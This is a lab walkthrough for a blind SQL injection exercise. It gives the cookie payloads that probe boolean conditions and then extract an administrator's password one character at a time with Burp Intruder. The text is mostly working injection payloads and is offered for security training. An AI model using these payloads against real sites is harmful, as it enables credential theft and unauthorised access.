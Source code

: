 # Lab: Blind SQL Injection with Conditional Responses

## Steps to Solve the Lab:

1. **Intercept the Request**  
   - Visit the front page of the shop and use Burp Suite to intercept the request containing the `TrackingId` cookie.
   - The original value of the cookie is `TrackingId=xyz`.

2. **Test the Boolean Condition**  
   - Modify the `TrackingId` cookie to:  
     ```sql
     TrackingId=xyz' AND '1'='1
     ```
   - Verify that the **Welcome back** message appears in the response.
   - Modify the `TrackingId` cookie to:  
     ```sql
     TrackingId=xyz' AND '1'='2
     ```
   - Verify that the **Welcome back** message does not appear in the response.  
     This demonstrates a single boolean condition that can be used to infer the result.

3. **Confirm the Existence of the `users` Table**  
   - Modify the `TrackingId` cookie to:  
     ```sql
     TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
     ```
   - Verify that the condition is true, confirming the existence of the `users` table.

4. **Confirm the Existence of the Administrator User**  
   - Modify the `TrackingId` cookie to:  
     ```sql
     TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
     ```
   - Verify that the condition is true, confirming that there is a user called `administrator`.

5. **Determine the Length of the Administrator's Password**  
   - Modify the `TrackingId` cookie to:  
     ```sql
     TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
     ```
   - Verify that the condition is true, confirming that the password is greater than 1 character in length.
   - Continue testing different lengths:  
     ```sql
     TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
     ```  
     ```sql
     TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a
     ```
     Continue until the condition becomes false, and you determine that the password length is 20 characters.

6. **Find the Characters of the Administrator's Password**  
   - Send the request to Burp Intruder and modify the `TrackingId` cookie to:  
     ```sql
     TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
     ```
   - This uses the `SUBSTRING()` function to extract a single character from the password, and test it against a specific value.  
   - Define a payload position around the `a` character in the cookie value. It should look like this:  
     ```sql
     TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
     ```

7. **Set Payloads in Burp Intruder**  
   - In Burp Intruder's **Payloads** tab, set the payload type to **Simple list**.
   - Add a list of lowercase alphanumeric characters (`a-z` and `0-9`) as potential characters for the password.
   - Configure Burp Intruder to **grep** for "Welcome back" in the response to identify when the correct character is found.

8. **Launch the Attack**  
   - Start the attack in Burp Intruder by clicking the **Start attack** button.
   - Review the attack results to find the character at the first position of the password.

9. **Test Each Character Position**  
   - After finding the first character, modify the payload to check subsequent positions.  
     For the second character, change the offset to `2`:  
     ```sql
     TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
     ```
   - Launch the attack and review the results to determine the second character.
   - Repeat this process for each character of the password by increasing the offset (`3`, `4`, etc.) until the entire password is revealed.

10. **Login as the Administrator**  
    - Once the entire password is found, go to the login page and use the discovered password to log in as the administrator.

## Expected Outcome:
- You should be able to determine the full password for the `administrator` user through a series of tests.
- Upon successfully logging in with the administrator's credentials, you will have completed the attack.
